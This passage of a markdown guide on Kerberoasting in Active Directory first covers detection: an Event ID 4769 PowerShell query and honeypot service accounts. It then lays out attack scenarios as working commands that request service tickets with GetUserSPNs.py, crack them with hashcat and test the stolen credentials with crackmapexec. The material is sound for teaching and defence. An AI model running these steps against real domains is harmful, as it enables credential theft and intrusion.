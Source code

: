 ### Detection Strategies
```bash
# Monitor for unusual TGS requests
# Event ID 4769 - Kerberos service ticket requested
# Look for:
# - Multiple TGS requests from single user
# - Requests for service accounts with weak passwords
# - Unusual encryption types (RC4 vs AES)

# PowerShell detection script
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4769} | 
Where-Object {$_.Message -match "RC4-HMAC"} |
Group-Object -Property {$_.Properties[0].Value} |
Where-Object {$_.Count -gt 10}
```

### Honeypot Service Accounts
```bash
# Create fake service accounts with monitoring
# Set attractive SPNs that don't correspond to real services
# Monitor for any authentication attempts

# Create honeypot SPN
setspn -A HTTP/fake-web-server.domain.local honeypot-account

# Monitor honeypot account usage
Get-WinEvent -FilterHashtable @{LogName='Security'; ID=4769} |
Where-Object {$_.Properties[0].Value -eq "honeypot-account"}
```

## Practical Attack Scenarios

### Scenario 1: SQL Server Service Account
```bash
# 1. Discover SQL service account
GetUserSPNs.py domain.local/user:pass -dc-ip dc_ip | grep -i sql

# 2. Request TGS ticket
GetUserSPNs.py domain.local/user:pass -dc-ip dc_ip -request-user sqlservice

# 3. Crack the hash
hashcat -m 13100 sqlservice_hash.txt rockyou.txt

# 4. Result: sqlservice:SQLPass123!
# 5. Test access to SQL servers
crackmapexec mssql domain.local -u sqlservice -p SQLPass123!
```

### Scenario 2: Web Application Service Account
```bash
# 1. Find web service SPNs
setspn -T domain.local -Q HTTP/*

# 2. Request tickets for all HTTP SPNs
GetUserSPNs.py domain.local/user:pass -dc-ip dc_ip -request

# 3. Focus on crackable hashes (weak passwords)
hashcat -m 13100 all_hashes.txt common_passwords.txt

# 4. Found: webservice:WebApp2023
# 5. Check for admin rights on web servers
crackmapexec smb domain.local -u webservice -p WebApp2023
```